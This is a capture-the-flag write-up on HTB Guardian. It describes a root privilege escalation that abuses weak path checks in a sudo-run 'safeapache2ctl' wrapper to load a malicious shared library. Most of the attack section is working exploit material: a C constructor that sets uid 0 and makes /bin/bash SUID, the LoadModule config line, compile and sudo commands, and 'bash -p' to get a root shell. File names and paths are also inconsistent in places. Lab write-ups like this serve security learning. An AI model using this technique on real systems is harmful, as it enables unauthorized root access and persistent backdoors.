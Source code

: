 # SafeApache2ctl Privilege Escalation - Shared Library Hijacking Technique Breakdown
- Found `HTB` Guardian privilege Escalation path very interesting , challenging box nonetheless.
- Taking notes for future references, referenced blog post on Guardian by [HYH](https://www.hyhforever.top/posts/2025/09/htb-guardian/).


####  Overview
This exploit leverages a path validation vulnerability in `safeapache2ctl` to load a malicious shared library with root privileges, resulting in persistent privilege escalation through `SUID` binary creation.


### Vulnerability Analysis

##### Core Vulnerability: Flawed Path Validation
The `safeapache2ctl` binary contains a vulnerable function is_unsafe_line() with improper path sanitization:

```bash
// Flawed validation logic
if (local_1018[0] == '/') {  // Only check absolute paths
    iVar1 = starts_with(local_1018,"/home/mark/confs/");
    if (iVar1 == 0) {
        // Block access
    }
}
// Relative paths bypass this check entirely!
```

### Security Control Bypass
- Intended Security: Restrict file operations to `/home/mark/confs/`
- Actual Behavior: Any file in the allowed directory can be referenced, including malicious shared libraries
- Bypass Method: Use absolute paths within the trusted directory that point to malicious content

### Attack Vectors

#### Exploitable Directives
The vulnerability affects three Apache configuration directives:
- `Include` - File inclusion
- `IncludeOptional` - Optional file inclusion
- `LoadModule` ⭐ Most Dangerous - Shared library loading
#### Why `LoadModule` is Critical

```c
// Apache processes this directive:
LoadModule evil_module /home/mark/confs/evil.so

// Which triggers:
dlopen("/home/mark/confs/evil.so")  // Loads shared library
// Constructor executes automatically with Apache's privileges
```
### Payloads
#### Payload Development
- `evil.c`, create malicious library
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
    setuid(0);
    system("chmod +s /bin/bash");
}
```
- `__attribute__((constructor))` - Function executes automatically on library load
- `setuid(0)` - Elevates privileges to root
- `chmod +s /bin/bash` - Creates persistent SUID root binary
#### Exploit Configuration
- `exploit.conf `, create exploit configuration and achieves code execution via shared library constructor
```bash
LoadModule evil_module /home/mark/confs/evil.so
```

### Reproduce The Attack
- Place `evil.c` in `/home/mark/`
- Place `evil.conf` in `/home/mark/conf`
- Compile the shared library 
```bash
$ gcc -shared -fPIC -o /home/mark/confs/evil.so /home/mark/evil.c
```
- Run `safeapache2ctl` as `sudo`
```bash
$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
```
- Run `bash` in privileged mode
```bash
$ bash -p
$ whoami  
root
```

